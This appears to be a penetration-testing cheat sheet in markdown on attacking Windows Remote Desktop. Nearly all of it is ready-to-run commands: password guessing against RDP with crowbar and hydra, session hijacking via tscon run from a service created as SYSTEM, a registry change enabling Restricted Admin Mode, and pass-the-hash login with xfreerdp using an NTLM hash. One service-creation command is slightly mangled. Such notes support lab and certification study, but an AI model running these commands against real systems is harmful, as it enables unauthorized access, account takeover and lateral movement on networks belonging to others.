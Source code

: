 # #Misconfigurations 

### Password guessing 
#### Using [crowbar](https://github.com/galkan/crowbar)
```shell
crowbar -b rdp -s 192.168.220.142/32 -U users.txt -c 'password123'
```
#### #Hydra 
```shell
 hydra -L usernames.txt -p 'password123' 192.168.2.143 rdp
```

## Session Hijacking 

Need to have #SYSTEM privilege and used [tscon.exe](https://learn.microsoft.com/en-us/windows-server/administration/windows-commands/tscon)

```cmd
 tscon #{TARGET_SESSION_ID} /dest:#{OUR_SESSION_NAME}
```

Local #admin privileges 
```cmd
query user
```

```cmd
c.exe create sessionhijack binpath= "cmd.exe /k tscon 1 /dest:rdp-tcp#0"
```

```cmd
net start sessionhijack
```

## RDP Pass-the-Hash (PtH)

Caveats 
- `Restricted Admin Mode`, which is disabled by default, should be enabled on the target host; otherwise, we will be prompted with the following error:
```cmd
reg add HKLM\System\CurrentControlSet\Control\Lsa /t REG_DWORD /v DisableRestrictedAdmin /d 0x0 /f
```

```shell
xfreerdp /v:192.168.220.152 /u:lewen /pth:300FF5E89EF33F83A8146C10F5AB9BB9 /scale-desktop:200 /scale:180
``` 

## Latest Vulns
[Blue Keep CVE-2019-0708](https://msrc.microsoft.com/update-guide/vulnerability/CVE-2019-0708)
